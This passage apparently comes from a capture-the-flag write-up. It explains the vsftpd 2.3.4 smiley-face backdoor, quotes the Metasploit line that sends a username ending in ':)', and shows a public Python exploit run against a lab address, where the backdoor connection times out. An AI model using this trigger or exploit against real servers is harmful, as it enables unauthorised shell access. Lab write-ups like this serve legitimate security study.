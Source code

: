 We can see this at work in the metasploit module,

inspect the exploit with `searchsploit -x 17491`

see excerpt below:
![smileface](/assets/img/lacasadepapel/lacasa-msf-smiley.png)


This line shows the use of the smileyface:
```
sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
```

The exploit generates random text for the username and enters a smileyface after it to trigger the vulnerability.

A [python exploit](https://raw.githubusercontent.com/Andhrimnirr/Python-Vsftpd-2.3.4-Exploit/master/exploit.py) for the vulnerability is easily found, and used to open port 6200.

```
python3 exploit.py 10.10.10.131 21

####

Author:İbrahim
https://github.com/Andhrimnirr/Python-Vsftpd-2.3.4-Exploit
[+] SUCCESSFUL CONNECTİON
[*] SESSION CREATED
[!] Interactive shell to check >> use command shell_check                                                          
[!] Failed to connect to backdoor                                                                                  
timed out                                                                                                          
```
